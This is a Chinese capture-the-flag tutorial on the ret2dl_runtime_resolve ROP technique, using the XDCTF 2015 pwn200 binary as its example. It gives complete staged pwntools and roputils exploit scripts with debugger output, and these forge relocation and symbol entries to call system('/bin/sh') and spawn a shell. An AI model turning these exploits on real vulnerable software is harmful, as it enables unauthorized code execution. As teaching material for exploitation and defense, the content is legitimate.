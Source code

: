 ..

高级ROP
=======

高级ROP其实和一般的ROP基本一样，其主要的区别在于它利用了一些更加底层的原理。

ret2_dl_runtime_resolve
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

原理
----

要想弄懂这个ROP利用技巧，需要首先理解ELF文件的基本结构，以及动态链接的基本过程，请参考executable中elf对应的介绍。这里我只给出相应的利用方式。

我们知道在linux中是利用 _dl_runtime_resolve(link_map_obj, reloc_index) 来对动态链接的函数进行重定位的。那么如果我们可以控制相应的参数以及其对应地址的内容是不是就可以控制解析的函数了呢？答案还肯定的。具体利用方式如下

1. 控制程序执行dl_resolve函数

	-  给定Link_map以及index两个参数。
	-  当然我们可以直接给定
	   plt0对应的汇编代码，这时，我们就只需要一个index就足够了。

2. 控制index的大小，以便于指向自己所控制的区域，从而伪造一个指定的重定位表项。
3. 伪造重定位表项，使得重定位表项所指的符号也在自己可以控制的范围内。
4. 伪造符号内容，使得符号对应的名称也在自己可以控制的范围内。

**此外，这个攻击成功的很必要的条件**

-  **dl_resolve函数不会检查对应的符号是否越界，它只会根据我们所给定的数据来执行。**
-  **dl_resolve函数最后的解析根本上依赖于所给定的字符串。**

注意：

-  符号版本信息
-  最好使得ndx = VERSYM[ (reloc->r\_info) >> 8]
   的值为0，以便于防止找不到的情况。
-  重定位表项
-  r_offset必须是可写的，因为当解析完函数后，必须把相应函数的地址填入到对应的地址。

攻击条件
--------

说了这么多，这个利用技巧其实还是ROP，同样可以绕过NX和ASLR保护。但是，这个攻击更适于一些比较简单的栈溢出的情况，但同时又难以泄露获取更多信息的情况下。

示例
----

这里以XDCTF 2015的pwn200为例。主要参考

1. http://pwn4.fun/2016/11/09/Return-to-dl-resolve/ ，深入浅出。
2. https://www.math1as.com/index.php/archives/341/

首先我们可以编译下ret2dlresolve文件夹下的源文件main.c文件得到二进制文件，这里取消了Canary保护。

.. code:: shell

    ➜  ret2dlresolve git:(master) ✗ gcc main.c -m32 -fno-stack-protector -o main

在下面的讲解过程中，我会按照以两种不同的方法来进行讲解。其中第一种方法比较麻烦，但是可以仔细理解ret2dlresolve的原理，第二种方法则是直接使用已有的工具，相对容易一点。

1. 利用正常的代码来使用该技巧从而获取shell。

	stage 1 测试控制程序执行write函数的效果。

	stage 2 测试控制程序执行 dl_resolve 函数，并且相应参数指向正常write函数的plt时的执行效果。

	stage 3 测试控制程序执行 dl_resolve 函数，并且相应参数指向伪造的write函数的plt时的执行效果。

2. 利用roputils中已经集成好的工具来实现攻击，从而获取shell。

正常攻击
~~~~~~~~

显然我们程序有一个很明显的栈溢出漏洞的。这题我们不考虑我们有libc的情况。我们可以很容易的分析出偏移为112。

.. code:: shell

    gef➤  pattern create 200
    [+] Generating a pattern of 200 bytes
    aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
    [+] Saved as '$_gef0'
    gef➤  r
    Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main 
    Welcome to XDCTF2015~!
    aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab

    Program received signal SIGSEGV, Segmentation fault.
    0x62616164 in ?? ()
    ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ registers ]────
    $eax   : 0x000000c9
    $ebx   : 0x00000000
    $ecx   : 0xffffcc6c  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
    $edx   : 0x00000100
    $esp   : 0xffffcce0  →  "eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqa[...]"
    $ebp   : 0x62616163 ("caab"?)
    $esi   : 0xf7fac000  →  0x001b1db0
    $edi   : 0xffffcd50  →  0xffffcd70  →  0x00000001
    $eip   : 0x62616164 ("daab"?)
    $cs    : 0x00000023
    $ss    : 0x0000002b
    $ds    : 0x0000002b
    $es    : 0x0000002b
    $fs    : 0x00000000
    $gs    : 0x00000063
    $eflags: [carry PARITY adjust zero SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
    ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ code:i386 ]────
    [!] Cannot disassemble from $PC
    ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ stack ]────
    ['0xffffcce0', 'l8']
    8
    0xffffcce0│+0x00: "eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqa[...]"  ← $esp
    0xffffcce4│+0x04: "faabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabra[...]"
    0xffffcce8│+0x08: "gaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsa[...]"
    0xffffccec│+0x0c: "haabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabta[...]"
    0xffffccf0│+0x10: "iaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabua[...]"
    0xffffccf4│+0x14: "jaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabva[...]"
    0xffffccf8│+0x18: "kaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwa[...]"
    0xffffccfc│+0x1c: "laabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxa[...]"
    ───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
    ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
    gef➤  pattern search 
    [!] Syntax
    pattern search PATTERN [SIZE]
    gef➤  pattern search 0x62616164
    [+] Searching '0x62616164'
    [+] Found at offset 112 (little-endian search) likely

stage 1
&&&&&&&&&&&&&&&&&&&&

这里我们的主要目的是控制程序执行write函数，虽然我们可以控制程序直接执行write函数。但是这里我们采用一个更加复杂的办法，即使用栈迁移的技巧，将栈迁移到bss段来控制write函数。即主要分为两步

1. 将栈迁移到bss段。
2. 控制write函数输出相应字符串。

这里主要使用了pwntools中的ROP模块。具体代码如下

.. code:: python

    from pwn import *
    elf = ELF('main')
    r = process('./main')
    rop = ROP('./main')

    offset = 112
    bss_addr = elf.bss()

    r.recvuntil('Welcome to XDCTF2015~!\n')

    # stack privot to bss segment
    # new stack size is 0x800
    stack_size = 0x800
    base_stage = bss_addr + stack_size
    ## padding
    rop.raw('a' * offset)
    ## read 100 byte to base_stage
    rop.read(0, base_stage, 100)
    ## stack privot, set esp = base_stage
    rop.migrate(base_stage)
    r.sendline(rop.chain())

    # write cmd="/bin/sh"
    rop = ROP('./main')
    sh = "/bin/sh"
    rop.write(1, base_stage + 80, len(sh))
    rop.raw('a' * (80 - len(rop.chain())))
    rop.raw(sh)
    rop.raw('a' * (100 - len(rop.chain())))

    r.sendline(rop.chain())
    r.interactive()

结果如下

.. code:: shell

    ➜  ret2dlresolve git:(master) ✗ python stage1.py
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    [+] Starting local process './main': pid 120912
    [*] Loaded cached gadgets for './main'
    [*] Switching to interactive mode
    /bin/sh[*] Got EOF while reading in interactive

stage 2
&&&&&&&&&&&&&&&&&&&&

在这一阶段，我们将会利用dlresolve相关的知识来控制程序执行write函数。这里我们主要是利用plt[0]中的相关指令，即push
linkmap以及跳转到dl_resolve函数中解析的指令。此外，我们还得单独提供一个write重定位项在plt表中的偏移。

.. code:: python

    from pwn import *
    elf = ELF('main')
    r = process('./main')
    rop = ROP('./main')

    offset = 112
    bss_addr = elf.bss()

    r.recvuntil('Welcome to XDCTF2015~!\n')

    # stack privot to bss segment
    # new stack size is 0x800
    stack_size = 0x800
    base_stage = bss_addr + stack_size
    ## padding
    rop.raw('a' * offset)
    ## read 100 byte to base_stage
    rop.read(0, base_stage, 100)
    ## stack privot, set esp = base_stage
    rop.migrate(base_stage)
    r.sendline(rop.chain())

    # write cmd="/bin/sh"
    rop = ROP('./main')
    sh = "/bin/sh"

    plt0 = elf.get_section_by_name('.plt').header.sh_addr
    write_index = (elf.plt['write'] - plt0) / 16 - 1
    write_index *= 8
    rop.raw(plt0)
    rop.raw(write_index)
    # fake ret addr of write
    rop.raw('bbbb')
    rop.raw(1)
    rop.raw(base_stage + 80)
    rop.raw(len(sh))
    rop.raw('a' * (80 - len(rop.chain())))
    rop.raw(sh)
    rop.raw('a' * (100 - len(rop.chain())))

    r.sendline(rop.chain())
    r.interactive()

效果如下，仍然输出了cmd对应的字符串。

.. code:: shell

    ➜  ret2dlresolve git:(master) ✗ python stage2.py
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    [+] Starting local process './main': pid 123406
    [*] Loaded cached gadgets for './main'
    [*] Switching to interactive mode
    /bin/sh[*] Got EOF while reading in interactive

stage 3
&&&&&&&&&&&&&&&&&&&&

这一次，我们同样控制dl_resolve函数中的index_offset参数，不过这次控制其指向我们伪造的write重定位项。

鉴于pwntools本身并不支持对重定位表项的信息的获取。这里我们手动看一下

.. code:: shell

    ➜  ret2dlresolve git:(master) ✗ readelf -r main  

    重定位节 '.rel.dyn' 位于偏移量 0x318 含有 3 个条目：
     偏移量     信息    类型              符号值      符号名称
    08049ffc  00000306 R_386_GLOB_DAT    00000000   __gmon_start__
    0804a040  00000905 R_386_COPY        0804a040   stdin@GLIBC_2.0
    0804a044  00000705 R_386_COPY        0804a044   stdout@GLIBC_2.0

    重定位节 '.rel.plt' 位于偏移量 0x330 含有 5 个条目：
     偏移量     信息    类型              符号值      符号名称
    0804a00c  00000107 R_386_JUMP_SLOT   00000000   setbuf@GLIBC_2.0
    0804a010  00000207 R_386_JUMP_SLOT   00000000   read@GLIBC_2.0
    0804a014  00000407 R_386_JUMP_SLOT   00000000   strlen@GLIBC_2.0
    0804a018  00000507 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
    0804a01c  00000607 R_386_JUMP_SLOT   00000000   write@GLIBC_2.0

可以看出write的重定表项的r_offset=0x0804a01c，r_info=0x00000607。具体代码如下

.. code:: python

    from pwn import *
    elf = ELF('main')
    r = process('./main')
    rop = ROP('./main')

    offset = 112
    bss_addr = elf.bss()

    r.recvuntil('Welcome to XDCTF2015~!\n')

    # stack privot to bss segment
    # new stack size is 0x800
    stack_size = 0x800
    base_stage = bss_addr + stack_size
    ## padding
    rop.raw('a' * offset)
    ## read 100 byte to base_stage
    rop.read(0, base_stage, 100)
    ## stack privot, set esp = base_stage
    rop.migrate(base_stage)
    r.sendline(rop.chain())

    # write sh="/bin/sh"
    rop = ROP('./main')
    sh = "/bin/sh"

    plt0 = elf.get_section_by_name('.plt').header.sh_addr
    rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
    # making base_stage+24 ---> fake reloc
    index_offset = base_stage + 24 - rel_plt
    write_got = elf.got['write']
    r_info = 0x607

    rop.raw(plt0)
    rop.raw(index_offset)
    # fake ret addr of write
    rop.raw('bbbb')
    rop.raw(1)
    rop.raw(base_stage + 80)
    rop.raw(len(sh))
    rop.raw(write_got)  # fake reloc
    rop.raw(r_info)
    rop.raw('a' * (80 - len(rop.chain())))
    rop.raw(sh)
    rop.raw('a' * (100 - len(rop.chain())))

    r.sendline(rop.chain())
    r.interactive()

最后结果如下，这次我们在bss段伪造了一个假的write的重定位项，仍然输出了对应的字符串。

.. code:: shell

    ➜  ret2dlresolve git:(master) ✗ python stage3.py
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    [+] Starting local process './main': pid 126063
    [*] Loaded cached gadgets for './main'
    [*] Switching to interactive mode
    /bin/sh[*] Got EOF while reading in interactive

stage 4
&&&&&&&&&&&&&&&&&&&&

stage3中，我们控制了重定位表项，但是重定位表项的内容与write原来的重定位表项一致，这次，我们将构造属于我们自己的重定位表项，并且伪造该表项对应的符号。首先，我们根据write的重定位表项的 r_info=0x607 可以知道，write对应的符号在符号表的下标为 0x607>>8=0x6 。 因此，我们知道write对应的符号地址为0x8048238。

.. code:: shell

    ➜  ret2dlresolve git:(master) ✗ objdump -s -EL -j  .dynsym main

    main：     文件格式 elf32-i386

    Contents of section .dynsym:
     80481d8 00000000 00000000 00000000 00000000  ................
     80481e8 33000000 00000000 00000000 12000000  3...............
     80481f8 27000000 00000000 00000000 12000000  '...............
     8048208 52000000 00000000 00000000 20000000  R........... ...
     8048218 20000000 00000000 00000000 12000000   ...............
     8048228 3a000000 00000000 00000000 12000000  :...............
     8048238 4c000000 00000000 00000000 12000000  L...............
     8048248 2c000000 44a00408 04000000 11001a00  ,...D...........
     8048258 0b000000 3c860408 04000000 11001000  ....<...........
     8048268 1a000000 40a00408 04000000 11001a00  ....@...........

这里给出的其实是小端模式，因此我们需要手工转换。此外，每个符号占用的大小为16个字节。

.. code:: python

    from pwn import *
    elf = ELF('main')
    r = process('./main')
    rop = ROP('./main')

    offset = 112
    bss_addr = elf.bss()

    r.recvuntil('Welcome to XDCTF2015~!\n')

    # stack privot to bss segment
    # new stack size is 0x800
    stack_size = 0x800
    base_stage = bss_addr + stack_size
    ## padding
    rop.raw('a' * offset)
    ## read 100 byte to base_stage
    rop.read(0, base_stage, 100)
    ## stack privot, set esp = base_stage
    rop.migrate(base_stage)
    r.sendline(rop.chain())

    # write sh="/bin/sh"
    rop = ROP('./main')
    sh = "/bin/sh"

    plt0 = elf.get_section_by_name('.plt').header.sh_addr
    rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
    dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
    dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

    ## making fake write symbol
    fake_sym_addr = base_stage + 32
    align = 0x10 - ((fake_sym_addr - dynsym) & 0xf
                    )  # since the size of item(Elf32_Symbol) of dynsym is 0x10
    fake_sym_addr = fake_sym_addr + align
    index_dynsym = (
        fake_sym_addr - dynsym) / 0x10  # calculate the dynsym index of write
    fake_write_sym = flat([0x4c, 0, 0, 0x12])

    ## making fake write relocation

    # making base_stage+24 ---> fake reloc
    index_offset = base_stage + 24 - rel_plt
    write_got = elf.got['write']
    r_info = (index_dynsym << 8) | 0x7
    fake_write_reloc = flat([write_got, r_info])

    rop.raw(plt0)
    rop.raw(index_offset)
    # fake ret addr of write
    rop.raw('bbbb')
    rop.raw(1)
    rop.raw(base_stage + 80)
    rop.raw(len(sh))
    rop.raw(fake_write_reloc)  # fake write reloc
    rop.raw('a' * align)  # padding
    rop.raw(fake_write_sym)  # fake write symbol
    rop.raw('a' * (80 - len(rop.chain())))
    rop.raw(sh)
    rop.raw('a' * (100 - len(rop.chain())))

    r.sendline(rop.chain())
    r.interactive()

具体效果如下

.. code:: shell

    ➜  ret2dlresolve git:(master) ✗ python stage4.py
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    [+] Starting local process './main': pid 128795
    [*] Loaded cached gadgets for './main'
    [*] Switching to interactive mode
    /bin/sh[*] Got EOF while reading in interactive

stage 5
&&&&&&&&&&&&&&&&&&&&

这一阶段，我们将在阶段4的基础上，我们进一步使得write符号的st_name指向我们自己构造的字符串。

.. code:: python

    from pwn import *
    elf = ELF('main')
    r = process('./main')
    rop = ROP('./main')

    offset = 112
    bss_addr = elf.bss()

    r.recvuntil('Welcome to XDCTF2015~!\n')

    # stack privot to bss segment
    # new stack size is 0x800
    stack_size = 0x800
    base_stage = bss_addr + stack_size
    ## padding
    rop.raw('a' * offset)
    ## read 100 byte to base_stage
    rop.read(0, base_stage, 100)
    ## stack privot, set esp = base_stage
    rop.migrate(base_stage)
    r.sendline(rop.chain())

    # write sh="/bin/sh"
    rop = ROP('./main')
    sh = "/bin/sh"

    plt0 = elf.get_section_by_name('.plt').header.sh_addr
    rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
    dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
    dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

    ## making fake write symbol
    fake_sym_addr = base_stage + 32
    align = 0x10 - ((fake_sym_addr - dynsym) & 0xf
                    )  # since the size of item(Elf32_Symbol) of dynsym is 0x10
    fake_sym_addr = fake_sym_addr + align
    index_dynsym = (
        fake_sym_addr - dynsym) / 0x10  # calculate the dynsym index of write
    # plus 10 since the size of Elf32_Sym is 16.
    st_name = fake_sym_addr + 0x10 - dynstr
    fake_write_sym = flat([st_name, 0, 0, 0x12])

    ## making fake write relocation

    # making base_stage+24 ---> fake reloc
    index_offset = base_stage + 24 - rel_plt
    write_got = elf.got['write']
    r_info = (index_dynsym << 8) | 0x7
    fake_write_reloc = flat([write_got, r_info])

    rop.raw(plt0)
    rop.raw(index_offset)
    # fake ret addr of write
    rop.raw('bbbb')
    rop.raw(1)
    rop.raw(base_stage + 80)
    rop.raw(len(sh))
    rop.raw(fake_write_reloc)  # fake write reloc
    rop.raw('a' * align)  # padding
    rop.raw(fake_write_sym)  # fake write symbol
    rop.raw('write\x00')  # there must be a \x00 to mark the end of string
    rop.raw('a' * (80 - len(rop.chain())))
    rop.raw(sh)
    rop.raw('a' * (100 - len(rop.chain())))

    r.sendline(rop.chain())
    r.interactive()

效果如下

.. code:: shell

    ➜  ret2dlresolve git:(master) ✗ python stage5.py      
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    [+] Starting local process './main': pid 129249
    [*] Loaded cached gadgets for './main'
    [*] Switching to interactive mode
    /bin/sh[*] Got EOF while reading in interactive

stage 6
&&&&&&&&&&&&&&&&&&&&

这一阶段，我们只需要将原先的write字符串修改为system字符串，同时修改write的参数为system的参数即可获取shell。这是因为，dl_resolve最终依赖的是我们所给定的字符串，即使我们给了一个假的字符串它仍然会去解析并执行。具体代码如下

.. code:: python

    from pwn import *
    elf = ELF('main')
    r = process('./main')
    rop = ROP('./main')

    offset = 112
    bss_addr = elf.bss()

    r.recvuntil('Welcome to XDCTF2015~!\n')

    # stack privot to bss segment
    # new stack size is 0x800
    stack_size = 0x800
    base_stage = bss_addr + stack_size
    ## padding
    rop.raw('a' * offset)
    ## read 100 byte to base_stage
    rop.read(0, base_stage, 100)
    ## stack privot, set esp = base_stage
    rop.migrate(base_stage)
    r.sendline(rop.chain())

    # write sh="/bin/sh"
    rop = ROP('./main')
    sh = "/bin/sh"

    plt0 = elf.get_section_by_name('.plt').header.sh_addr
    rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
    dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
    dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

    ## making fake write symbol
    fake_sym_addr = base_stage + 32
    align = 0x10 - ((fake_sym_addr - dynsym) & 0xf
                    )  # since the size of item(Elf32_Symbol) of dynsym is 0x10
    fake_sym_addr = fake_sym_addr + align
    index_dynsym = (
        fake_sym_addr - dynsym) / 0x10  # calculate the dynsym index of write
    # plus 10 since the size of Elf32_Sym is 16.
    st_name = fake_sym_addr + 0x10 - dynstr
    fake_write_sym = flat([st_name, 0, 0, 0x12])

    ## making fake write relocation

    # making base_stage+24 ---> fake reloc
    index_offset = base_stage + 24 - rel_plt
    write_got = elf.got['write']
    r_info = (index_dynsym << 8) | 0x7
    fake_write_reloc = flat([write_got, r_info])

    rop.raw(plt0)
    rop.raw(index_offset)
    # fake ret addr of write
    rop.raw('bbbb')
    rop.raw(base_stage + 82)
    rop.raw('bbbb')
    rop.raw('bbbb')
    rop.raw(fake_write_reloc)  # fake write reloc
    rop.raw('a' * align)  # padding
    rop.raw(fake_write_sym)  # fake write symbol
    rop.raw('system\x00')  # there must be a \x00 to mark the end of string
    rop.raw('a' * (80 - len(rop.chain())))
    print rop.dump()
    print len(rop.chain())
    rop.raw(sh + '\x00')
    rop.raw('a' * (100 - len(rop.chain())))

    r.sendline(rop.chain())
    r.interactive()

需要注意的是，这里我 '/bin/sh' 的偏移我修改为了82，这是因为pwntools中它会自动帮你对齐字符串。。。下面这一行说明了问题。

::

    0x0050:           'aara'

效果如下

.. code:: shell

    ➜  ret2dlresolve git:(master) ✗ python stage6.py
    [*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
    [+] Starting local process './main': pid 130415
    [*] Loaded cached gadgets for './main'
    0x0000:        0x8048380
    0x0004:           0x2528
    0x0008:           'bbbb' 'bbbb'
    0x000c:        0x804a892
    0x0010:           'bbbb' 'bbbb'
    0x0014:           'bbbb' 'bbbb'
    0x0018: '\x1c\xa0\x04\x08' '\x1c\xa0\x04\x08\x07i\x02\x00'
    0x001c:  '\x07i\x02\x00'
    0x0020:           'aaaa' 'aaaaaaaa'
    0x0024:           'aaaa'
    0x0028:  '\x00&\x00\x00' '\x00&\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x12\x00\x00\x00'
    0x002c: '\x00\x00\x00\x00'
    0x0030: '\x00\x00\x00\x00'
    0x0034: '\x12\x00\x00\x00'
    0x0038:           'syst' 'system\x00'
    0x003c:        'em\x00o'
    0x0040:             'aa'
    0x0044:           'aaaa' 'aaaaaaaaaaaaaa'
    0x0048:           'aaaa'
    0x004c:           'aaaa'
    0x0050:           'aara'
    82
    [*] Switching to interactive mode
    /bin/sh: 1: xa: not found
    $ ls
    core  main.c     stage2.py  stage4.py  stage6.py
    main  stage1.py  stage3.py  stage5.py

工具攻击
~~~~~~~~

根据上面的介绍，我们应该很容易可以理解这个攻击了。下面我们直接使用roputil来进行攻击。代码如下

.. code:: python

    from roputils import *
    from pwn import process
    from pwn import gdb
    from pwn import context
    r = process('./main')
    context.log_level = 'debug'
    r.recv()

    rop = ROP('./main')
    offset = 112
    bss_base = rop.section('.bss')
    buf = rop.fill(offset)

    buf += rop.call('read', 0, bss_base, 100)
    # used to call dl_Resolve()
    buf += rop.dl_resolve_call(bss_base + 20, bss_base)
    r.send(buf)

    buf = rop.string('/bin/sh')
    buf += rop.fill(20, buf)
    # used to make faking data, such relocation, Symbol, Str
    buf += rop.dl_resolve_data(bss_base + 20, 'system')
    buf += rop.fill(100, buf)
    r.send(buf)
    r.interactive()

关于dl_resolve_call与dl_resolve_data的具体细节请参考roputils.py的源码，比较容易理解，需要注意的是，dl_resolve执行完之后也是需要有对应的返回地址的。

效果如下

.. code:: shell

    ➜  ret2dlresolve git:(master) ✗ python roptool.py                       
    [+] Starting local process './main': pid 6114
    [DEBUG] Received 0x17 bytes:
        'Welcome to XDCTF2015~!\n'
    [DEBUG] Sent 0x94 bytes:
        00000000  46 4c 68 78  52 36 67 6e  65 47 53 58  71 77 51 49  │FLhx│R6gn│eGSX│qwQI│
        00000010  32 43 6c 49  77 76 51 33  47 49 4a 59  50 74 6c 38  │2ClI│wvQ3│GIJY│Ptl8│
        00000020  57 54 68 4a  63 48 39 62  46 55 52 58  50 73 38 64  │WThJ│cH9b│FURX│Ps8d│
        00000030  72 4c 38 63  50 79 37 73  55 45 7a 32  6f 59 5a 42  │rL8c│Py7s│UEz2│oYZB│
        00000040  76 59 32 43  74 75 77 6f  70 56 61 44  6a 73 35 6b  │vY2C│tuwo│pVaD│js5k│
        00000050  41 77 78 77  49 72 7a 49  70 4d 31 67  52 6f 44 6f  │Awxw│IrzI│pM1g│RoDo│
        00000060  43 44 43 6e  45 31 50 48  53 73 64 30  6d 54 7a 5a  │CDCn│E1PH│Ssd0│mTzZ│
        00000070  a0 83 04 08  19 86 04 08  00 00 00 00  40 a0 04 08  │····│····│····│@···│
        00000080  64 00 00 00  80 83 04 08  28 1d 00 00  79 83 04 08  │d···│····│(···│y···│
        00000090  40 a0 04 08                                         │@···││
        00000094
    [DEBUG] Sent 0x64 bytes:
        00000000  2f 62 69 6e  2f 73 68 00  73 52 46 66  57 43 59 52  │/bin│/sh·│sRFf│WCYR│
        00000010  66 4c 35 52  78 49 4c 53  54 a0 04 08  07 e9 01 00  │fL5R│xILS│T···│····│
        00000020  6e 6b 45 32  52 76 73 6c  00 1e 00 00  00 00 00 00  │nkE2│Rvsl│····│····│
        00000030  00 00 00 00  12 00 00 00  73 79 73 74  65 6d 00 74  │····│····│syst│em·t│
        00000040  5a 4f 4e 6c  6c 73 4b 5a  76 53 48 6e  38 37 49 47  │ZONl│lsKZ│vSHn│87IG│
        00000050  69 49 52 6c  50 44 38 67  45 77 75 6c  72 47 6f 67  │iIRl│PD8g│Ewul│rGog│
        00000060  55 41 52 4f                                         │UARO││
        00000064
    [*] Switching to interactive mode
    $ ls
    [DEBUG] Sent 0x3 bytes:
        'ls\n'
    [DEBUG] Received 0x8d bytes:
